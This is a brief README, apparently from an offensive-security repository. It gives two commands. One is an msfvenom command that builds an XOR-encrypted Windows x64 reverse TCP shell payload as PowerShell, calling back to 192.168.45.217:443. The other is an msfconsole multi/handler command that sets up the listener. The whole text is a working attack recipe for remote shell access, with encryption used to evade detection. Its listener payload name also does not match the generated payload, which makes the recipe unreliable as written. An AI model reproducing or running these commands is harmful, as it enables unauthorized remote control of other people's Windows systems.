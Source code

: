 # readme

Generate Payload

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.217 LPORT=443 EXITFUNC=thread -f ps1 --encrypt xor --encrypt-key z 
```

Start Listener

```rust
msfconsole -q -x "use multi/handler; set payload windows/x64/shell/reverse_tcp; set lhost 192.168.45.217; set lport 443; exploit" 
```

Change the payload type based on what you want your shell to be
